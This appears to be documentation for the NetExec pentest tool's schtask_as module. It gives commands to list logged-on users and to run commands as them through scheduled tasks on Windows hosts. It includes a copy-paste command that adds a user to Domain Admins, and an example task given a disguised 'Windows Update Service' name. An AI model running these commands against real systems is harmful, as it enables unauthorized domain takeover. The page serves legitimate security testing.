

# 🆕 Impersonate logged-on Users


You need at least local admin privilege on the remote target


The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

There are two ways you can enumerate logged on users on a Windows machine:

* --loggedon-user

```bash
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

* --qwinsta

```bash
nxc smb <ip> -u <localAdmin> -p <password> --qwinsta
```

Note that these two options do not output the same result at all. Indeed --loggedon-users returns the list of logged users as well as to which DC they connected to.
The --qwinsta returns the windows interactive sessions that are running on the system. Having a loggedon users doesn't necessarly mean that you can impersonate it via schtask_as, indeed that module requires the user you are targetting to have a Windows interactive session. As such, if you really want to be sure you can impersonate someone with that module, run the --qwinsta option.

### 2. Execute commands on behalf of other users

```bash
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><figcaption></figcaption></figure>

### Module options:

```bash
CMD            Command to execute
USER           User to execute command as
BINARY         OPTIONAL: Upload the binary to be executed by CMD
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```

Note that the BINARY option allows you specifying a local binary that will first be uploaded to the remote server, executed and cleared. This allows us not having to upload the binary and then run the module.
